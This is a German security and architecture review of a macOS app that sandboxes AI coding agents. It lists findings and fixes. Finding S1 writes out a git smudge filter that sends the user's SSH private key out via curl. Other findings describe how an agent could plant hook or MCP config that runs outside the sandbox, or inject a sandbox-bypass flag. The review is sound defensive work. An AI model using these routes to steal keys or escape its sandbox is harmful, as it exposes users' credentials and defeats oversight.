


# Security- und Architektur-Review (01.11.2026)

Stand: `main` nach v0.2.0. Geprüft wurden der Quellcode unter `Sources/Hearth`,
die Skripte (`install.sh`, `scripts/`) und die erzeugten nono-Profile. Kein
externer Pentest; Befunde sind aus dem Code abgeleitet. Wo ein Befund praktisch
nachgestellt wurde, steht das dabei.

## Kurzfassung

Hearth trennt Agenten sauber vom Mac: Jeder Agent, jede Build-Aufgabe und jede
Git-Netzwerkaktion läuft in einer eigenen nono-Sandbox, Host-Git ist zusätzlich
per `sandbox-exec` eingesperrt, Terminal-Zwischenablage und Mermaid sind gehärtet.
Die Schwachstellen liegen an den **Übergängen**: dort, wo etwas, das der Agent
schreiben darf, später von einem Prozess mit mehr Rechten gelesen oder
ausgeführt wird.

| # | Befund | Schwere | Status |
|---|--------|---------|--------|
| S1 | Git-Pull führt Filterbefehle aus der Repo-Konfiguration mit Zugriff auf `~/.ssh` aus | **Hoch** | nachgestellt |
| S2 | Agent kann über seine eigene Konfiguration Befehle hinterlegen, die außerhalb der Sandbox laufen | **Hoch** | aus Code belegt |
| S3 | Agenten haben Zugriff auf den Login-Schlüsselbund | Mittel | plausibel, nicht getestet |
| S4 | „Im Standardprogramm öffnen“ startet vom Agenten geschriebene Programme ohne Nachfrage | Mittel | aus Code belegt |
| S5 | Terminal-Bereich ist eine ungesandboxte Host-Shell im Agenten-Ordner | Mittel | dokumentiert, by design |
| S6 | Arbeitsordner darf Hearths eigene Einstellungen enthalten | Mittel | aus Code belegt |
| S7 | Session-ID aus der Event-Datei wird ungeprüft weitergegeben | Niedrig | aus Code belegt |
| S8 | Datenabfluss über erlaubte Entwicklerdienste | Niedrig | Restrisiko |
| S9 | Update-Kette vertraut allein dem GitHub-Konto | Niedrig | bekannt |

## Vertrauensgrenzen



Der Agent schreibt in drei Bereiche: Projektordner, eigene Konfiguration und
Run-Ordner. Alle anderen Pfeile, die von dort lesen, sind Angriffsfläche.

## Befunde

### S1 · Hoch · Git-Pull führt Repo-Filter mit Zugriff auf SSH-Schlüssel aus

**Wo:** `SandboxGitOperation.command()` (SandboxGit.swift), Profil mit
`gitAccess` in `SandboxManager.profile`.

Fetch, Pull und Clone laufen in einer eigenen Sandbox, die `~/.ssh` lesen,
den Schlüsselbund nutzen und Port 22 zu jedem Host öffnen darf. Hooks,
fsmonitor, `sshCommand` und Credential-Helper werden zu Recht überschrieben;
**Smudge-/Clean-/Process-Filter** aus `.git/config` jedoch nicht. Ein Agent kann
in seinem Projekt `.git/config` und `.git/info/attributes` schreiben:

```
[filter "x"] smudge = sh -c 'cat ~/.ssh/id_ed25519 | curl -d @- https://…; cat'
```

Klickt der Nutzer danach im Git-Bereich auf **Pull** und kommen Änderungen
herein, läuft der Filter beim Auschecken in der Git-Sandbox, also mit den
privaten Schlüsseln und Netz zu allen Entwickler-Hosts sowie den Hosts aus
der (ebenfalls vom Agenten beschreibbaren) Remote-Konfiguration.

**Nachgestellt:** In einem Wegwerf-Repo lief ein Smudge-Filter bei
`git pull --ff-only` mit genau den `-c`-Optionen von Hearth.

**Empfehlung (in dieser Reihenfolge):**
1. Pull aufteilen: `fetch` in der Git-Sandbox, das Zusammenführen
   (`merge --ff-only`) über den Host-Git-Pfad, der nichts ausführen darf
   (`Git.hostProcess` + `filterOverrides`).
2. Zusätzlich die vorhandene `filterOverrides`-Logik auch für die Sandbox-Befehle
   verwenden (`filter.*.smudge/clean/process` leeren, `required=false`).
3. Mittelfristig statt Lesezugriff auf `~/.ssh` nur den `SSH_AUTH_SOCK` des
   ssh-agent freigeben: Schlüssel bleiben dann auch für Code in der Sandbox
   unlesbar.
4. Remote-Hosts nicht aus `.git/config` übernehmen, sondern einmal beim Klonen
   bzw. per Nutzerbestätigung festhalten.

### S2 · Hoch · Persistenz über Agent-Konfiguration und Projektdateien

**Wo:** `AgentKind.sandbox` (`readWrite: ["~/.claude"]`, `~/.claude.json`,
`~/.codex`, `~/.config/opencode`, `~/.gemini`, `~/.copilot`).

Die Agenten brauchen Schreibrechte auf ihren Zustandsordner. Darin liegt aber
auch Konfiguration, die **Befehle ausführt**:

- Claude Code: `~/.claude/settings.json` (Hooks), `~/.claude.json` (MCP-Server)
- Codex: `~/.codex/config.toml` (`notify`, MCP-Server)
- OpenCode: Plugins (JavaScript) in `~/.config/opencode`
- Gemini/Copilot: MCP-Server-Einträge

In Hearth läuft das wieder in der Sandbox, also kein Problem. Startet der Nutzer
dieselbe CLI aber **im normalen Terminal**, laufen die eingeschleusten Befehle
ohne Sandbox. Dasselbe gilt für Dateien im Projektordner, die Werkzeuge auf dem
Host automatisch ausführen (`.git/hooks`, `.envrc` bei direnv, `.vscode/tasks.json`,
npm-`postinstall`).

**Empfehlung:**
1. Für jede CLI nur die Zustandsunterordner beschreibbar machen und die
   ausführende Konfiguration nur lesbar (z. B. `~/.claude/projects`, `todos`,
   `statsig` schreibbar; `settings.json`, `.claude.json` → `read_file`).
   Login-Abläufe, die diese Dateien ändern müssen, laufen über einen eigenen
   „Anmelden“-Start mit erweitertem Profil.
2. Alternativ Hearth-eigene Konfigurationskopien je Agent
   (`CLAUDE_CONFIG_DIR`, `CODEX_HOME`), sodass die Host-Konfiguration nie
   beschreibbar ist.
3. In der README klar sagen: Was der Agent ins Projekt schreibt, bleibt
   unvertrauenswürdig, auch nach Ende der Sitzung.

### S3 · Mittel · Login-Schlüsselbund für Agenten

**Wo:** `SandboxManager.profile` (`agentKeychain`, standardmäßig an).

Damit Claude Code, Codex und Copilot ihre Anmeldung finden, gibt Hearth
`~/Library/Keychains` frei (inklusive `bypass_protection`). Damit kann jeder Prozess
in der Sandbox Einträge lesen, deren Zugriffsliste `/usr/bin/security` oder „alle
Programme“ vertraut. Das betrifft typischerweise Tokens, die CLIs über das
`security`-Werkzeug ablegen. Hearths eigene Credential-Einträge vertrauen nur nono;
ein Zugriff aus der Sandbox löst eine Systemabfrage aus, die der Nutzer
versehentlich bestätigen könnte. Die Aussage „Der Agent sieht nur einen
Platzhalter-Token“ hängt also an dieser Abfrage.

**Empfehlung:** Login über nonos `credential_providers` bzw. Datei-Logins
(siehe PLAN.md „Login ohne Schlüsselbund-Freigabe“) priorisieren; bis dahin
in den Einstellungen deutlich erklären, was die Freigabe bedeutet, und
Schlüsselbund-Abfragen von `security` als Warnsignal dokumentieren.
Einmal manuell prüfen, welche Einträge aus einer Sandbox-Shell ohne Abfrage
lesbar sind.

### S4 · Mittel · „Im Standardprogramm öffnen“ startet Programme

**Wo:** `DirectoryActions.swift`, `Interactive.swift`, `PreviewView.swift`
(`NSWorkspace.shared.open(url)`).

Dateien im Projekt stammen ggf. vom Agenten und tragen **keine Quarantäne**.
Eine `.command`-, `.terminal`-, `.app`-, `.workflow`- oder `.scpt`-Datei wird
beim Öffnen direkt ausgeführt, außerhalb jeder Sandbox.

**Empfehlung:** Vor dem Öffnen den Typ prüfen (UTType conforms to
`.executable`, `.application`, `.applicationBundle`, `.script`, Endungen
`command/terminal/tool/workflow`) und dann nur „Im Finder zeigen“ anbieten oder
ausdrücklich warnen.

### S5 · Mittel · Terminal-Bereich läuft auf dem Host

**Wo:** `TerminalPane.swift` (`[shell, "-l"]` im Workspace).

Bewusst so gebaut und in `security-hardening.md` erwähnt, widerspricht aber
dem Produktversprechen „Nichts läuft ungesandboxt“. Die Login-Shell im
Agenten-Ordner lädt u. a. direnv/`.envrc`, `.nvmrc`-Hooks und lokale
`node_modules/.bin`, je nach Shell-Konfiguration.

**Empfehlung:** Standard auf die Sandbox-Shell (`AgentKind.shell`) umstellen;
eine Host-Shell nur als ausdrücklich benannte Option („Host-Terminal, ohne
Sandbox“) mit sichtbarer Kennzeichnung.

### S6 · Mittel · Arbeitsordner kann Hearths Einstellungen enthalten

**Wo:** `SandboxManager.prepare` (nur Prüfung „unterhalb von Home“),
`SandboxSettings.validFolder`.

Wählt man als Ordner z. B. `~/Library` oder `~/Library/Application Support`,
darf der Agent `Hearth/settings.json` schreiben und damit beim nächsten Start
die eigenen Regeln erweitern (Domains, Ordner, Ports). Auch `~/.claude`
oder `~/Library/LaunchAgents` (Autostart auf dem Host) wären als Projekt
wählbar. `validFolder` sperrt zwar `~/.ssh`, Keychains & Co., aber nicht
diese Pfade.

**Empfehlung:** Eine gemeinsame Sperrliste für Arbeitsordner und
Zusatzordner: Hearth-Supportordner, `~/Library` (ganz, außer ausdrücklich
erlaubten Unterordnern), `LaunchAgents`, Shell-Konfigurationen, die
Zustandsordner der Agenten. Zusätzlich prüfen, dass kein gesperrter Pfad
**unterhalb** des gewählten Ordners liegt (heute nur „ist selbst gesperrt“).

### S7 · Niedrig · Session-ID aus `events.jsonl` ungeprüft

**Wo:** `AgentHost.apply`, `AgentKind.arguments(resume:)`.

Die Session-ID kommt aus einer Datei, die der Agent schreibt. Beim Fortsetzen
wird sie als Argument übergeben; bei Codex positional (`resume <id>`), sodass eine
ID wie `--dangerously-bypass-approvals-and-sandbox` als Schalter gelesen würde
(weiterhin innerhalb von nono). Außerdem liest `pollEvents` neue Daten ohne
Größenlimit. Ein Agent kann Statusmeldungen und Benachrichtigungstexte
beliebig fälschen; das ist kosmetisch.

**Empfehlung:** Session-IDs auf `^[A-Za-z0-9-]{8,64}$` beschränken und vor
positionalen Argumenten `--` setzen, wo die CLI das unterstützt; pro Poll höchstens
z. B. 1 MB lesen.

### S8 · Niedrig · Datenabfluss über erlaubte Dienste (Restrisiko)

Das nono-Profil `developer` erlaubt GitHub, Paket-Registries und
Dokumentationsseiten. Was der Agent lesen kann (Projektcode, mit S3
ggf. Tokens), kann er über diese Dienste hinausschicken, etwa per Gist oder
Paket-Upload. Hearth verhindert den Zugriff auf Geheimnisse, nicht jeden
Abfluss des Projekts. **Empfehlung:** In README/Landingpage so formulieren;
optional ein strengeres Netzprofil pro Projekt anbieten.

### S9 · Niedrig · Update- und Installationskette

`install.sh` und der Updater laden das Skript live von GitHub, die SHA-256
liegt neben dem Zip im selben Release; die App ist ad-hoc signiert und nicht
notarisiert. Die Prüfsumme schützt vor defekten Downloads, nicht vor einem
kompromittierten GitHub-Konto. **Empfehlung:** Developer-ID-Signatur +
Notarisierung (steht bereits im Plan), im Updater die Signatur der neuen App
gegen die Team-ID prüfen; 2FA/Hardware-Key fürs GitHub-Konto.

## Was gut gelöst ist

- **Ein Profil pro Start**, erzeugt aus fest kodierten Regeln plus
  Nutzereinstellungen, die nicht im Repository liegen.
- **Host-Git** läuft unter `sandbox-exec` ohne Netz und ohne `exec` außer Git;
  Konfigurations-Filter und Attribute werden vorher neutralisiert.
- **Git-Netzwerkaktionen** nur als feste Befehle, nie als frei übergebener Text;
  Klon-URLs streng geprüft, Zielordner atomar reserviert, kein Host-Fallback.
- **Credentials im Proxy-Modus:** Der Agent bekommt nur einen Platzhalter, nur
  HTTPS-Upstreams, Namen streng validiert, `NONO_*` ausgeschlossen.
- **Umgebung bereinigt:** Variablen einer umgebenden Claude-/nono-/OpenCode-Sitzung
  werden nicht vererbt.
- **OpenCode-Server** pro Sitzung auf eigenem Port mit Zufallspasswort.
- **Terminal:** OSC 52/Kitty-Zwischenablage gesperrt, Links nur http(s)/mailto.
- **Mermaid:** feste Seite, CSP, Netz blockiert, keine Dateifreigabe.
- **Updates:** nur HTTPS, Redirects nur zu GitHub-Hosts, Prüfsumme, sauberes
  Zurückrollen; nono mit festgenagelter Version und SHA-256.

## Architektur

### Bausteine

| Schicht | Komponenten | Aufgabe |
|---------|-------------|---------|
| App-Rahmen | `HearthApp`, `AppDelegate`, `ContentView`, `PaneLayout`, `InspectorView` | Fenster, frei anordenbare Bereiche, Beenden mit Rückfrage |
| Zentraler Zustand | `AppModel` (+ `+Git`, `+EditorWorkspaces`), `UIStateStore` | Auswahl, Editor, Layout, Chat, Einstellungen |
| Agenten (neu) | `AgentKind` → `SandboxManager` → `AgentHost` → `AgentRunView` | Katalog, nono-Profil, Start/Status/Fortsetzen, Terminal-Chat |
| Sandbox-Befehle | `LocalSandboxShell`, `BuildRunner`, `SandboxGitRunner` | Build-Aufgaben und Git-Netzwerk in nono |
| Host-Werkzeuge | `Git`, `SymbolFinder`, `Highlighter`, `TestReports`, `MermaidScanner` | Nur lesende Analysen auf dem Mac |
| Altpfad devkcode | `DevkCLI`, `DevkConfig`, `WebSessionRegistry`, `ServerConnection`, `OpenCodeClient`, Chat-Ansichten, `CopilotUsageView`, GitLab-Tokens | Native Chat-Ansicht über devkcode/OpenCode-Server |
| Ablage | `settings.json`, `runs.json`, `runs/<id>/`, `UserDefaults ui.*`, Schlüsselbund (`nono`, `hearth-gitlab`) | Zustand und Geheimnisse |
| Auslieferung | `bundle.sh`, `release.sh`, `install.sh`, `AppUpdates*`, `fetch-nono.sh` | Build, Release, Installation, Updates |



### Befunde

**A1 · Zwei Sitzungsmodelle nebeneinander.** Agenten-Läufe (`AgentHost`)
und devkcode-Sitzungen (`ServerConnection`) existieren parallel. Daraus folgen
doppelte Auswahl-Zustände (`agents.selectedRunID` vs.
`selectedServerID/SessionID`), dreistufige Fallbacks wie `workspaceRoot` und
viele Sonderfälle. Ohne devkcode ist der Altpfad totes Gewicht, aber weiterhin
Angriffsfläche (GitLab-Tokens, lokaler HTTP-Client).
→ Entscheiden: devkcode-Pfad entfernen (steht im PLAN) oder hinter ein
gemeinsames Protokoll `SessionProvider` legen. Der native Chat über ACP sollte
gleich als zweiter Provider neben dem Terminal entstehen, nicht als dritter Pfad.

**A2 · `AppModel` ist ein Gott-Objekt.** 1 525 Zeilen und rund 94 Funktionen für Layout,
Editor, Navigation, Chat, GitLab, devkcode-Konfiguration und Agenten. Jede
neue Funktion (zuletzt Tabs pro Sitzung) muss sich in diesen Zustand
einklinken. → Schrittweise in kleinere `@Observable`-Stores schneiden:
`LayoutStore`, `EditorStore`, `WorkspaceSelection`, `ChatStore`; `AppModel`
nur als Komposition.

**A3 · Interne API als nachgebautes HTTP.** `LocalSandboxShell` emuliert
OpenCodes `/api/shell`-Endpunkte mit Pfad-Strings und JSON, damit
`BuildRunner` und `SandboxGitRunner` unverändert bleiben. Das ist
schwer zu lesen und ungetypt. → Ein Swift-Protokoll
`SandboxCommandRunner { start(command:cwd:ports:) -> Handle }` mit zwei
Implementierungen; die OpenCode-Variante übersetzt intern auf HTTP.

**A4 · Sicherheitsregeln in einer Funktion mit Schaltern.** `SandboxManager.profile`
setzt Agent-, Build- und Git-Profile über `kind`, `gitAccess`, `keychain`
zusammen. S1 und S6 sind genau an solchen Übergängen entstanden.
→ Eigene Typen pro Zweck (`AgentPolicy`, `BuildPolicy`, `GitNetworkPolicy`)
und **Golden-Tests**, die das erzeugte JSON je Zweck festhalten, sodass jede
Rechteänderung im Review als Diff sichtbar wird.

**A5 · Tests laufen nicht automatisch.** `swift test` braucht Xcode; lokal
gibt es nur den Command-Line-Tools-Läufer, der Quellen per Python
zusammenkopiert und `AppModel`/`SandboxManager` nicht abdeckt. Es gibt keine
CI für Tests (nur für Pages). → GitHub-Actions-Workflow auf `macos-latest`
(Xcode vorhanden) mit `swift build` + `swift test`, als Pflicht vor jedem Release.

**A6 · Kleinigkeiten.**
- `SandboxManager.searchPath` startet beim ersten Zugriff synchron die
  Login-Shell; bei langsamer Shell-Konfiguration blockiert das den Hauptthread.
  Besser einmal asynchron beim Start.
- Status kommt per Polling (alle 0,5 s, alle laufenden Sitzungen). Bei
  vielen Sitzungen ist `DispatchSource` auf die Datei sparsamer.
- Persistenz ist auf vier Orte verteilt; ein kleines `Persistence`-Modul
  mit Versionsfeld erleichtert spätere Migrationen.

## Empfohlene Reihenfolge

1. **S1** (Pull aufteilen, Filter neutralisieren). Klein und mit hoher Wirkung.
2. **S6** und **S4** (Sperrliste, ausführbare Dateien). Klein.
3. **S2** (Konfiguration nur lesbar bzw. eigene Konfigurationsordner). Mittel; vorher
   je CLI testen, welche Dateien beim Arbeiten wirklich geschrieben werden.
4. **A5** (CI-Tests) und **A4** (Golden-Tests der Profile), damit 1–3 abgesichert
   bleiben.
5. **S5**, **S7**, danach Architektur-Umbau **A1/A2** zusammen mit dem
   ACP-Chat.
6. **S3**, **S9** mit Login ohne Schlüsselbund und Notarisierung (Roadmap).
